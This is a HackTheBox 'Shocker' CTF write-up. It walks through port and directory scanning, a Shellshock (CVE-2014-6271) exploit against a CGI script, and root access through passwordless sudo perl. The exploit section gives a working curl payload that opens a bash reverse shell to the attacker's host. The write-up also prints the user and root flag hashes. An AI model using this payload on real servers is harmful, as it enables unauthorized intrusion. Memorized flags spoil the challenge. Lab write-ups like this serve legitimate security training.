

# hackthebox shocker writeup

[link to the box](https://app.hackthebox.com/machines/Shocker)

1. [scanning](#scanning)
2. [exploiting](#exploiting)
3. [pwning](#pwning)

# scanning

as with anything, we must first scan for open ports.

```
$ nmap -sV -Pn 10.10.10.56
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

looks like we have we website hosted on port 80, lets go there.

http://10.10.10.56:80/

which is a blank webpage with an image embedded in it. inspecting the header in burpsuite shows little information either.

but there are files stored on this webserver, like the image. lets run `gobuster` and see if we can spot anything else.

after trying a few wordlists, `small.txt` from the default kali wordlists gives us the following:

```
$ gobuster dir -w <wordlists dir>/dirb/small.txt --url http://10.10.10.56:80/
...
/cgi-bin/ (Status: 403)
...
```

this directory is special, since it hosts scripts that can be/are run by the webserver. we use `dirbuster` (instead of gobuster) to find some files with common scripting language extensions for a linux host:

```
$ cat script-extensions.txt
.pl
.php
.py
.sh
```

scanning into the directory using our extension list gets us the following:

```
$ dirb http://10.10.10.56:80/cgi-bin/ -x script-extensions.txt
...
---- Scanning URL: http://10.10.10.56:80/cgi-bin/ ----
+ http://10.10.10.56:80/cgi-bin/user.sh (CODE:200|SIZE:119)
...
```

by visiting this webpage we can run said `user.sh` script, but we cannot modify it directly.


# exploiting

since we know that `.sh` files are basically always bash scripts, we can look up ways to leverage this:



[this webpage](https://www.ampliasecurity.com/blog/2014/09/24/exploiting_bash_remote_code_execution_vulnerability_CVE-2014-6271/) explains nicely how to use this exploit. any script called using `/bin/bash -c <command>` is vulnerable!

running

`curl -H "User-Agent: () { :;}; echo; echo \"/bin/bash -i >& /dev/tcp/<your local ip>/<any sane port> 0>&1\" | /bin/bash" http://10.10.10.56:80/cgi-bin/user.sh`

will connect to your netcat listener you started using `nc -lvp <your local ip>`

we now have a reverse shell on the server!

# pwning

running `whoami` tells us that we are user `shelly`. we can probably find the user flag in `/home/shelly/`.

```
$ cat /home/shelly/user.txt
9fea9acc39d8f1b6fb04b319a74c5bf3
```

now we need to find root. the simplest way is to see what permissions `shelly` user has.

`/etc/sudoers` and `/etc/doas.conf` are unreadable and do not exist respectively. but we can still see what we can do using `sudo -l`.

and with no passwrod required, we have full access to `sudo /usr/bin/perl`. its pretty obvious how we can execute anything from perl.

to get a bash shell, run `sudo perl -e 'exec "/bin/bash"'`

`whoami` returns `root`

to get the flag, cat the flag in root's home directory

```
$ cat /root/root.txt
b949166b17a9d67175cd0f923d4213de
```
